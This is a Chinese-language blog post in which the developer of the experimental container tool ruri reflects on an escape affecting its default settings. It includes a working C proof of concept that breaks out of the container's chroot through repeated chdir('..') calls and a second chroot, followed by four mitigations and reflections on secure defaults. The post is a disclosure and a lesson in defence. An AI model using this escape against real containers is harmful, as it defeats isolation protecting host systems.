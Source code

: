 ```yaml
---
layout: post
title: 容器安全反思之，当我亲手逃逸出ruri
date: 2025-07-27 22:40:56
cover: /img/escape-inside-ruri.jpg
top_img: /img/escape-inside-ruri.jpg
tags:
- Linux
- C语言
- Container
---
```

# 前言及叠甲(雾)
开发了好久的ruri，这两天听了一场AOSCC，天塌了。
~~所以责任全在AOSCC（bushi）~~
本文所提到问题仅针对个人项目，不构成任何方面建议。本人强烈推荐使用稳定的容器实现而非和我一起开灵车。
本文仅供技术交流，请自行承担风险。
写文章时作者在旅馆喝多了，至于怎么写出来的，我也不知道。
ruri已有的功能是能防的，只是非默认行为。安全加固建议在文档中也写了，总之，别骂了QwQ知道错了呜呜呜。。。
为什么这篇文章不遵守安全漏洞披露规范？因为ruri是灵车，我们继续创就好了（x
虽然AOSCC演讲刚讲到这个问题。。。。
以及：
For production, I fully recommand you to use tools like [crun](https://github.com/containers/crun), [youki](https://github.com/youki-dev/youki), [containerd](https://containerd.io/), [docker](https://www.docker.com/), [podman](https://podman.io/), [LXC](https://linuxcontainers.org/), [bubblewrap](https://github.com/containers/bubblewrap), they are more secure and stable. This is a non-OCI tool and, you take your own risk using it when you really need. The whole project is experimental!
```
* Your warranty is void.
* I am not responsible for anything that may happen to your device by using this program.
* You do it at your own risk and take the responsibility upon yourself.
* This project is open source, you can make your own fork/rewrite but not to blame the author.
* This program has no Super Cow Powers.
```
# 简单的逃逸
基于AOSCC上姚念庆老师的分享（公开信息，仅做引用），经过和xtex佬的交流后，我也成功构建了一个POC：
（注：以下代码仅供学习交流，请勿用于非法用途）
```c
// 草，懒得搜头文件直接从项目里引了
// 反复鞭尸.jpg
#include "src/include/ruri.h"
int main(void)
{
	/*
	 * WTF? How it works?
	 */
    // Seems we need to chroot() to a subdir once,
    // don't ask me why, idk.
	int chstat = chroot("/tmp");
	// Non-zero value means we are not succeed.
	printf("chroot returned %d\n", chstat);
	for (int i = 0; i < 1000; i++) {
		chdir("..");
	}
    // chroot() again, now we are out to host rootfs.
	chstat = chroot("./");
	printf("chroot returned %d\n", chstat);
	// Wow, out of container!
	// We are now free like a bird!
	execv("/bin/ls", (char *[]){ "ls", NULL });
	return 0;
}
```
原理。。。我也不清楚，毕竟涉及内核态了，总之，很恐怖。
于是我成功把自己和不存在的用户一起创似了。
好了本文结束，作者可以找个垃圾桶把自己丢进去了。
# 坏消息与好消息：
## 坏消息：
ruri的默认行为是寄的。
## 好消息：
我们至少有四种方式可以在不更新ruri的基础上解决这个问题：
1. drop掉CAP_SYS_CHROOT，这样chroot()就会失败
2. 开启unshare，因为unshare会自动先尝试pivot_root()
3. 使用rootless模式，虽然我也不知道为什么能防
4. 开启seccomp，用`--deny-syscalls chroot`可以拒绝chroot()

至少咱应该不用以死谢罪吧。。。（心虚）
但是：
## 坏消息：
1. 以上这些，在写这篇文章之前，都不是默认行为
2. 用户并不懂这些，甚至我见过有用户直接一个`--privileged`选项干掉所有保护
3. 我依稀记得，当时是为了兼容性考虑才保留CAP_SYS_CHROOT，但我清楚的知道，我忘了到底是为什么

好了作者要找个垃圾桶把自己丢进去了。
# 反思一，我们如何构建默认行为
更多默认启用的安全选项意味着更大的限制。
举个例子，如果我们默认开启no_new_privs，那么用户将无法通过su命令切换回root用户。
举个鞭尸自己的例子，ruri的内置seccomp规则一直没有充分测试，而且之前确实被它创飞过。
更极端的例子就是，我们自然可以直接开seccomp的传统模式，但是，这样容器也就不可用了。就像AOSCC上有一段是这样讲的：什么都没有的话，一块石头最安全了，但他也仅仅是一块石头。
docker等项目的默认行为确实有很大的参考价值，但是，他们并不完全适用于ruri这样的项目，毕竟我们要支持内核功能完全受限的环境。
在实际开发中，这样的问题其实有更多。有些当时为了修复一个已经被忘了且没有记录的问题的补丁成了默认行为，有些时候，为了兼容性，我们不得不在尝试更安全的行为失败时，fallback倒一个并非安全的行为。
当ruri被扩展到rurima，又多了一个新的问题。国内docker镜像都非相对可信，可如果不支持镜像，国内用户会很难受。因此我也只能做折中，在用户使用非官方镜像时输出一个警告~~（并非折中）~~
我们有时候不得不承认，哪怕我们支持再多的特性，默认行为也只能是一个折中后的结果。
哪怕这并不应当是作者因为知识浅薄写出漏洞的借口。
# 反思二，用户有没有义务去了解背后原理
我个人认为，我看未必，实则不然，恰恰相反，~~天理难容~~
用户自然需要对自己的行为负责，但是，作为开发者的我，显然责任更大。
软件的本质是一种减轻用户心智负担和使用成本的抽象，我们自然是让用户越轻松越好。至少，就像AOSCC上一位佬说的那样，我们应当比用户更了解我们的程序。
尤其是，当默认行为有严重的副作用，作者却未对此说明，甚至像我一样，根本不知道时。
# 反思三，当我们真的来到生产环境
那寄了，咱只能以死谢罪了。。。
很庆幸，我还年轻，只是一个爱好者的身份，ruri也并不是被广泛使用的项目，至少这辈子应该不会见到这东西进生产环境，~~否则我要去连着自己一起骂一顿了~~
但我们真的，不得不去考虑，为我们的程序负责。
以及，在生产环境下，尽量不要用未经广泛验证的项目，会变得不幸
# 结语
我一直相信，一个项目的构建，要从非零值开始，它至少需要先有雏形，再去完善。
在开始开发ruri之前，我甚至没有接触过C语言，好吧，说实话我只写过一点shell。
这几年的开发，确实让我的技术有了些许进步，因此，对于拿自己的开源项目当试验场的行为，我必须表示：
sorry, not sorry
最起码只是实验性项目，我们的灵车还会继续发车。无需麻醉，一样情不自禁high起来～
好吧，不开玩笑地说，很感谢此次AOSCC上各位大佬的分享，也确实让我意识到自己的很多不足。
我仍将相信，我终会有能力构建出更完善的项目，哪怕会犯错。
但我将更加努力。
但我将更加警惕。
好了作者要找个垃圾桶把自己丢进去了，bye～